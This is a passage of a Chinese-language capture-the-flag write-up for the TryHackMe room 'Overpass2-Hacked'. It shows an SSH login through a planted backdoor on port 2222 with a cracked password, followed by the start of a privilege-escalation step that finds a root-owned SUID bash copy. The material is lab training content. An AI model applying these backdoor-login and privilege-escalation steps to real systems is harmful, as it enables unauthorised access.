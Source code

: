     + 尝试用之前后门获取的hash破解密码：``november16`` 登录：

        ```
        ┌──(kali㉿kali)-[~/桌面/THM/Overpass2-Hacked]
        └─$ ssh -p 22 james@10.10.86.29                             
        james@10.10.86.29's password: 
        Permission denied, please try again.
        james@10.10.86.29's password: 
                    
        ┌──(kali㉿kali)-[~/桌面/THM/Overpass2-Hacked]
        └─$ ssh -p 2222 james@10.10.86.29 -oHostKeyAlgorithms=+ssh-rsa
        james@10.10.86.29's password: 
        To run a command as administrator (user "root"), use "sudo <command>".
        See "man sudo_root" for details.

        james@overpass-production:/home/james/ssh-backdoor$ whoami
        james
        james@overpass-production:/home/james/ssh-backdoor$ id
        uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
        james@overpass-production:/home/james$ ls 
        ssh-backdoor  user.txt  www
        james@overpass-production:/home/james$ cd /root
        bash: cd: /root: Permission denied
        ```

        + 登录2222端口成功，后门工具也是2222端口

            ![Alt text](/style/image/image-368.png)

## 提权

+ 继续查看james目录下文件，包括隐藏文件：

    ```
    james@overpass-production:/home/james$ ls -al
    total 1136
    drwxr-xr-x 7 james james    4096 Jul 22  2020 .
    drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
    lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
    -rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
    -rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
    drwx------ 2 james james    4096 Jul 21  2020 .cache
    drwx------ 3 james james    4096 Jul 21  2020 .gnupg
    drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
    -rw------- 1 james james      51 Jul 21  2020 .overpass
    -rw-r--r-- 1 james james     807 Apr  4  2018 .profile
    -rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
    -rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
    drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
    -rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
    drwxrwxr-x 7 james james    4096 Jul 21  2020 www
    ```
